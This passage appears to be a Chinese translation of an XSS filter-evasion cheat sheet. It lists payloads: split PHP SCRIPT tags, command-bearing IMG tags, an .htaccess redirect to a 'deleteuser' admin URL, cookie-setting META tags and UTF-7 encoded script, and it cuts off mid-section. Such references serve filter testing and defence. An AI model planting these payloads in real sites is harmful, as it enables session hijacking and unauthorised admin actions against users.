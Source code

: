 需要 php 被安装在服务器端去使用这个 xss 向量。同样的，如果你可以运行恩任何远程脚本，那么将会有更加严重的问题。

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?> 
```

* * *

## 嵌入命令的 IMG

它是工作于那些需要用户认证后才可以执行命令的当前域页面。它将可以创建删除用户（如果访问者是管理员），或是寄送某些凭证等等，虽然他是较少被使用但是是非常有用的。

```
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode"> 
```

* * *

## 嵌入命令的 IMG II

这是更加的可怕因为并没有特别的标识符去使它看起开来可疑。除非不允许引入第三方域的图片。这个向量是使用一个 302 or 304（或其他可行方案）去重定向一个图片地址为带有某些命令的地址。因此一个正常的图片标签代码<IMG SRC="a_jpg.jpg">可以是带有命令的 xss 向量。但是用户看到的仅仅是正常的图片链接地址。下面是一个.htaccess（apche 下）配置文件去完成这个向量。（感谢 Timo 为这部分。）

```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser 
```

* * *

## Cookie 篡改

这是公认的不着边际，但是我已经发下一个例子是用 <META 去覆盖 cookie。另一个例子是有些网站使用 cookie 中的某些数据去呈现在当前访问者的网页中为仅仅他自己而不是从远程数据库中获取。当这两个清静联系在一起的时候，你可以通过修改 cookie 让 javascript 输入到用户页面中。（你可以借此让用户退出，改变用户的状态，甚至让用户以你的身份登录）

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>"> 
```

* * *

## UTF-7 编码

如果存在 xss 的页面没有提供页面 charset header，或是对于任何被设为 UTF-7 的浏览器，我们可以利用下面的代码。（感谢 Roman Ivanov 的提供），点击这儿为这个例子。（如果页面设置是自动识别编码且 content-types 没有被覆盖，在 ie 浏览器或使用了 IE 渲染引擎的 Netscape 8.1，咋你不需要声明 charset ）在没有改变编码的情况下它是不能工作在任何现代浏览器，这是为什么它被标记为完全不支持。Watchfire 发现这个漏洞在 Google's 自定义 404 脚本中.

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4- 
```

* * *

## 使用 HTML 引用封装的 xss

他是被测试在 ie，具体因情况而异。它是为了绕过那些可以输入 "<SCRIPT>" 但不允许输入 "<SCRIPT SRC..."，通过正则"/<script[^>]+src/i"进行过滤的 xss 过滤区。
